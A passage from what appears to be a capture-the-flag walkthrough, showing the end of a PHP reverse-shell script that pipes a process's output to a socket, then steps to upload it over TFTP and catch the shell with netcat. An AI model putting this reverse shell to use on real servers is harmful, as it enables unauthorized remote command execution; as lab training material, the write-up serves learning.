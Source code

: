 ```

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Save it as `.php` file.

Remember to save it in the same directory from where you have connected to the `TFTP`.

### TFTP again

Now in your `TFTP` tab type:

```
put {name of your reverse shell file}.php
```

![tftp](./Screenshots/includedtftp2.png)

### Netcat

Let's open another terminal to capture the `reverse shell`.

Type:
